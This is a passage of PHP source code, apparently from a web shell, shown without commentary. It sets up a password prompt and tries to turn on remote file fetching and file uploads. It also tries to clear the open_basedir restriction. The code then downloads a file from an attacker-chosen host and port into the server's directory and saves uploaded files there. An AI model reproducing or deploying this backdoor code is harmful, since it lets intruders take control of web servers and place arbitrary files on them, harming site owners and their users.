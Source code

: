 ```php
			?>
				<form method="post" action="<?php e($url); ?>">
					<?php e($passprompt); ?>
					<input type="password" size="15" name="pass">
					<input type="submit" value="Send">
				</form>
			<?php
			exit;
		}
	}
	else
	{
		$status .= "${warn} Authentication disabled ('mhash()' missing).<br />";
	}
}

if (! ini_get('allow_url_fopen'))
{
	ini_set('allow_url_fopen', '1');
	if (! ini_get('allow_url_fopen'))
	{
		if (function_exists('stream_select'))
		{
			$fetch_func = 'fetch_sock';
		}
		else
		{
			$fetch_func = '';
			$status .= "${warn} File fetching disabled ('allow_url_fopen'"
				. " disabled and 'stream_select()' missing).<br />";
		}
	}
}
if (! ini_get('file_uploads'))
{
	ini_set('file_uploads', '1');
	if (! ini_get('file_uploads'))
	{
		$status .= "${warn} File uploads disabled.<br />";
	}
}
if (ini_get('open_basedir') && ! ini_set('open_basedir', ''))
{
	$status .= "${warn} open_basedir = " . ini_get('open_basedir') . "<br />";
}

if (! chdir($cwd))
{
  $cwd = getcwd();
}

if (! empty($fetch_func) && ! empty($fetch_path))
{
	$dst = $cwd . DIRECTORY_SEPARATOR . basename($fetch_path);
	$status .= $fetch_func($fetch_host, $fetch_port, $fetch_path, $dst);
}

if (ini_get('file_uploads') && ! empty($_FILES['upload']))
{
	$dest = $cwd . DIRECTORY_SEPARATOR . basename($_FILES['upload']['name']);
	if (move_uploaded_file($_FILES['upload']['tmp_name'], $dest))
	{
```